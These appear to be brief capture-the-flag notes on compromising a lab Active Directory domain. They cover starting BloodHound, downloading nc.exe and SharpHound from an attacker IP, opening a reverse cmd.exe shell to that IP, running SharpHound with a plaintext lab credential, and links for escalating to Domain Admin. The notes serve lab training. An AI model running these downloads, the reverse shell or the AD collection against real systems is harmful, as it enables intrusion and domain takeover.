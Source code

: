 `sudo neo4j console`

http://localhost:7474/browser/

Then type **bloodhound** into local shell

`Invoke-WebRequest -Uri 'http://10.10.14.16:8000/nc.exe' -Outfile C:\Users\svc-alfresco\Desktop\nc.exe`

`C:\Users\svc-alfresco\Desktop\nc.exe -e cmd.exe 10.10.14.16 4444`

`Invoke-WebRequest -Uri 'http://10.10.14.16:8000/SharpHound.ps1' -Outfile C:\Users\svc-alfresco\Desktop\SharpHound.ps1`

`PowerShell -Exec Bypass`

`. .\SharpHound.ps1`
`invoke-bloodhound -collectionmethod all -domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice`

Get back to box and drag into blood hound

The sandwich menu button (the red box in the above image) was pressed and the “Find Shortest Paths to Domain Admins” link was pressed:

Research main connection element eg Exchange Windows Permissions

https://chryzsh.github.io/exploiting-privexchange/

Click on the EDGE between nodes for help

https://github.com/fox-it/aclpwn.py